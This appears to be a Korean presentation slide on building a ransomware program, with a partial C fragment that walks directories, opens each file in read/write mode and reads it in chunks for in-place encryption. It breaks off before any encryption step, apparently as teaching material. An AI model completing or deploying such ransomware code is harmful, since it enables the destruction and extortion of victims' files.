

02 랜섬웨어 프로그램
-#1 암호화 프로그램
#1 파일 찾기 & 파일 암호화
char filefullname[1000]; //파일이름을 저장
   sprintf(filefullname, "%s/%s", filepath, filename); //파일이름을 출력
   char data[1024]; //데이터를 저장
   char the_key[1024];
   unsigned int read_size, i;
   long frpos, fwpos;
   FILE *fp = fopen(filefullname, "r+b"); //파일오픈

   if (fp == NULL)
   {
      if (strstr(filename, ".") == 0)
      findfile(filefullname);
      return -1;
   }

   while (!feof(fp))
   {
      fwpos = ftell(fp); //ftell 은 현재위치의 위치값을 리턴
      read_size = fread(data, 1, 1024, fp); // 오픈된 파일의 자료(문서내용) 을 읽고 그 사이즈를 저장

      if (read_size == 0)break; //아무것도 없는 문서이면 break